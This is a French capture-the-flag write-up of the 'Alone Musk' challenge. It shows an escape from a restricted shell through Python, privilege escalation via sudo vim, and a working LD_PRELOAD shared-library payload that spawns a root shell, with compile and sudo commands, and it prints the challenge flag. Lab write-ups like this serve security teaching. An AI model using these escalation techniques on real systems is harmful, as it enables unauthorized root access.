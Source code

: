 # Alone Musk

> Lors de votre récent séjour à Evil Country, vous êtes parvenu à brancher un dispositif sur le camion effectuant la livraison. Il faut maintenant trouver une faille sur le système pour pouvoir prendre le contrôle du camion autonome de la marque Lates et le rediriger vers un point d'extraction. Un agent a posé un dispositif nous permettant d'accéder au système de divertissement du véhicule. A partir de ce dernier, remontez jusqu'au système de navigation.
>
> Connectez-vous en SSH au camion
> 
>Identifiants: user:user
>
> Le serveur est réinitialisé périodiquement
>
> Port : 5004
>
> Le flag est de la forme DGSESIEE{hash}

On se connecte à la plateforme grâce à `ssh -p 5004 user@challengecybersec.fr`.

![hello](images/alone_intro.png)

Quand on se connecte, nous sommes accueillis par un programme qui nous demande notre username et mot de passe. Après avoir entré quelques usernames/password usuels (tels que admin/admin, guest/guest, ...), on quitte le programme avec Ctrl-D.
Cela nous mène sur un restricted bash.

![rbash](images/alone_rbash.png)

## Sortir du rbash

Un restricted bash diminue les commandes disponibles pour l'utilisateur. Par exemple, si on tape `ls`, on obtient un message d'erreur `command not found`. De plus, on ne peut pas avoir de `/` dans les noms de commande

On remarque cependant que le message d'erreur en quittant le programme est une erreur Python. Essayons donc d'ouvrir Python. Bingo, cela fonctionnne.

Une fois dans Python, on peut ouvrir un bash traditionnel grâce aux commandes suivantes:

```python
import os
os.system('/bin/bash')
```

Cette fois c'est bon, on peut utiliser `/` dans nos commandes. Ainsi on a accès à toutes les commandes usuelles grâce à la commande `export PATH=$PATH:/bin:/usr/bin` qui rajoute ces dossiers à notre chemin d'éxecution.

## Exploration

Maintenant qu'on a accès aux commandes usuelles, on explore le serveur. On apprend qu'il y a trois utilisateurs: `user` (nous), `globalSystem` et `navigationSystem` qui contient le flag. On ne peut pas le lire cependant par défaut de permissions.

![exploration](images/alone_exploration.png)

En examinant les processus avec `ps -aux`, on voit que d'autres personnes sont connectées... Cela permet d'avoir pas mal d'idées sur comment procéder... Les auteurs auraient probablement dû compartimenter le serveur.


L'idée est donc d'élever ses privilèges afin de lire le flag. Grâce à la commande `sudo -l`, on apprend qu'on peut faire tourner `vim` en tant que `globalSystem`: voilà notre première élévation de privilèges.

![sudol](images/alone_sudouser.png)

## Bash en tant que globalSystem

Vim, en plus d'être un éditeur de texte, permet d'éxecuter des commandes. On peut donc ouvrir un `/bin/bash` en tant que globalSystem avec la commande suivante: `sudo -u globalSystem vim`. Puis on tape `:!/bin/bash` et nous voilà connectés en tant que globalSystem.

![bashGlobal](images/alone_bashglobal.png)

## Devenir navigationSystem

Une fois encore, `sudo -l` nous apprend qu'on peut executer `/usr/bin/update` en tant que navigationSystem. `update` est un binaire. Peut être qu'il contient une vulnérabilité qu'on pourra exploiter pour lire `flag.txt` en tant que navigationSystem. Afin d'extraire l'exécutable, j'utilise `cat /usr/bin/update | base64` et je copie ce qui apparaît. Une fois sur mon ordinateur, je peux ainsi reconvertir le base64 en fichier avec `base64 -d`. 

Malheureusement, le fichier ne semble pas avoir de vulnérabilité évidente. La décompilation avec [Ghidra](https://ghidra-sre.org/) donne la fonction suivante:

```c
undefined8 main(int param_1,undefined8 *param_2)
{
  int iVar1;
  undefined8 local_17;
  undefined4 local_f;
  undefined2 local_b;
  undefined local_9;
  
  local_17 = 0x547349656e6f6c41;
  local_f = 0x65426568;
  local_b = 0x7473;
  local_9 = 0;
  if (param_1 < 2) {
    printf("usage : %s password",*param_2);
  }
  else {
    iVar1 = strcmp((char *)&local_17,(char *)param_2[1]);
    if (iVar1 == 0) {
      do {
        puts("Deploying upgrade on vehicle, please wait");
        printf("[####                                ] 8%\n");
      } while( true );
    }
    puts("Wrong password");
  }
  return 0;
}
```

Finalement, je remarque la ligne `env_keep+=LD_PRELOAD` dans l'output de `sudo -l`. Avec un peu de recherches, j'apprends que `LD_PRELOAD` est utilisé pour charger des librairies C. Ainsi, je peux charger ma librarie que j'aurai injectée afin de spawn un shell en tant que navigationSystem, avant de lancer `update`.

Tout d'abord, je crée la librairie:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```

Que je compile avec la commande `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

En tant que user (pour avoir les droits d'écriture), je copie la librarie sur le serveur (avec ma technique de base64).

Puis je me reconnecte en tant que globalSystem, et je lance la commande `sudo -u navigationSystem LD_PRELOAD=./shell.so /usr/bin/update`.

Cela lance un shell en tant que navigationSystem et j'obtiens le flag.

![flag](images/alone_flag.png)

Flag: `DGSESIEE{44adfb64ff382f6433eeb03ed829afe0}`